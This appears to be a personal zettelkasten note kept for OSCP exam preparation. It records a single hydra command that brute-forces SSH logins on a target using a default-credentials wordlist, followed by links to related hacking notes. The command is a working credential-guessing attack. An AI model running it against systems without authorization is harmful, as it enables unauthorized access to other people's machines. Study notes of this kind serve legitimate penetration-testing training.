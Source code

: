 # brute force default credentials ssh
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -e nsr -t 1 $IP ssh
```

` zet/20221003150805/README.md `

# Related

- [20221014185851](/zet/20221014185851/README.md) kb file named kb/hacking/commands/hydra-default-credentials.md
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam
- [20221003150807](/zet/20221003150807/README.md) brute force default credentials
- ~/kb/hacking/commands/hydra-default-credentials.md

Tags:

    #command #hacking #hydra 
